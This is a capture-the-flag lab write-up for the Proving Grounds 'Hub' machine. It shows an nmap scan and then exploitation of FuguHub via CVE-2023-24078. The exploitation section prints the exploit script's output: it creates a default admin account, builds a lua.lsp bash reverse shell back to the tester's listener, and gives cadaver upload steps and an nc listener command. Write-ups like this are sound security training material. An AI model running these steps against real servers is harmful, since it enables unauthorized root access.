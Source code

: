 ```yaml
---
layout: default
title: Hub
parent: Proving Grounds Practice - Linux
nav_order: 11
---
```


# Scanning

---

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/hub]
└─$ sudo nmap -Pn -p- -sC -sV -T4 --open 192.168.246.25

22/tcp   open  ssh      OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey:
|   3072 c9:c3:da:15:28:3b:f1:f8:9a:36:df:4d:36:6b:a7:44 (RSA)
|   256 26:03:2b:f6:da:90:1d:1b:ec:8d:8f:8d:1e:7e:3d:6b (ECDSA)
|_  256 fb:43:b2:b0:19:2f:d3:f6:bc:aa:60:67:ab:c1:af:37 (ED25519)
80/tcp   open  http     nginx 1.18.0
|_http-title: 403 Forbidden
|_http-server-header: nginx/1.18.0
8082/tcp open  http     Barracuda Embedded Web Server
|_http-server-header: BarracudaServer.com (Posix)
| http-methods:
|_  Potentially risky methods: PROPFIND PATCH PUT COPY DELETE MOVE MKCOL PROPPATCH LOCK UNLOCK
| http-webdav-scan:
|   WebDAV type: Unknown
|   Allowed Methods: OPTIONS, GET, HEAD, PROPFIND, PATCH, POST, PUT, COPY, DELETE, MOVE, MKCOL, PROPFIND
, PROPPATCH, LOCK, UNLOCK
|   Server Date: Wed, 29 Nov 2023 04:00:14 GMT
|_  Server Type: BarracudaServer.com (Posix)
|_http-title: Home
9999/tcp open  ssl/http Barracuda Embedded Web Server
| http-methods:
|_  Potentially risky methods: PROPFIND PATCH PUT COPY DELETE MOVE MKCOL PROPPATCH LOCK UNLOCK
|_http-title: Home
| ssl-cert: Subject: commonName=FuguHub/stateOrProvinceName=California/countryName=US
| Subject Alternative Name: DNS:FuguHub, DNS:FuguHub.local, DNS:localhost
| Not valid before: 2019-07-16T19:15:09
|_Not valid after:  2074-04-18T19:15:09
| http-webdav-scan:
|   WebDAV type: Unknown
|   Allowed Methods: OPTIONS, GET, HEAD, PROPFIND, PATCH, POST, PUT, COPY, DELETE, MOVE, MKCOL, PROPFIND
, PROPPATCH, LOCK, UNLOCK
|   Server Date: Wed, 29 Nov 2023 04:00:13 GMT
|_  Server Type: BarracudaServer.com (Posix)
|_http-server-header: BarracudaServer.com (Posix)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

# Enumeration

---

# 8082 | HTTP

The landing page indicates this is the _FuguHub_ website builder and provides a link to the _CMS Admin Page_

There does not appear to be an admin configured yet.

![admin](../../../assets/images/ctfs/proving_grounds/hub/admin.png)

We now have access to the _web-file-server_

![file](../../../assets/images/ctfs/proving_grounds/hub/file.png)

After doing some research on _FugHub_ with the Baracuda Drive, there is an exploit at the following Github repo that we can use to get a root shell.

[CVE-2023-24078 FuguHub/BarracudaDrive Exploit](https://github.com/overgrowncarrot1/CVE-2023-24078)

# Exploitation

---

After downloading the script we just run the following command...

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/hub]
└─$ python exploit.py -l 192.168.45.217 -p 4444 -r 192.168.246.25 -P 8082
Installing necessary tools if not already installed
Colorama installed, not installing
Selenium installed, not installing
 _____ _____  _____    ______ _   _ _____ _   _ _   _ _   _______
|  _  |  __ \/  __ \   |  ___| | | |  __ \ | | | | | | | | | ___ \
| | | | |  \/| /  \/   | |_  | | | | |  \/ | | | |_| | | | | |_/ /
| | | | | __ | |       |  _| | | | | | __| | | |  _  | | | | ___ \
\ \_/ / |_\ \| \__/\   | |   | |_| | |_\ \ |_| | | | | |_| | |_/ /
 \___/ \____/ \____/   \_|    \___/ \____/\___/\_| |_/\___/\____/
Trying to set the following parameters
Email adm1n@localhost.local , username adm1n password P@ssw0rd!
Creating admin user on http://192.168.246.25:8082/Config-Wizard/wizard/SetAdmin.lsp

Logging in to WebFileServer to retrieve cadaver information

Logging in at http://192.168.246.25:8082/rtl/protected/wfslinks.lsp
Making lua.lsp script with bash reverse shell going to 192.168.45.217 on port 4444

<_io.TextIOWrapper name='lua.lsp' mode='w' encoding='UTF-8'>
Copy the URL you see in the popup, this will be known below as <URL>
Run the following commands

cadaver
 open <URL>
 cd ..
 adm1n
 P@ssw0rd!
 put lua.lsp

Open new tab and start listener with nc -lvnp 4444 press enter to continue

```

After opening a window to connect to the WebDav server with _cadaver_ we can upload the _lua.lsp_ exploit generated by the Python script.

![exploit](../../../assets/images/ctfs/proving_grounds/hub/exploit.png)

# Post-Exploitation

---

No post-exploitation required as we have a root exploit from the initial exploitation.
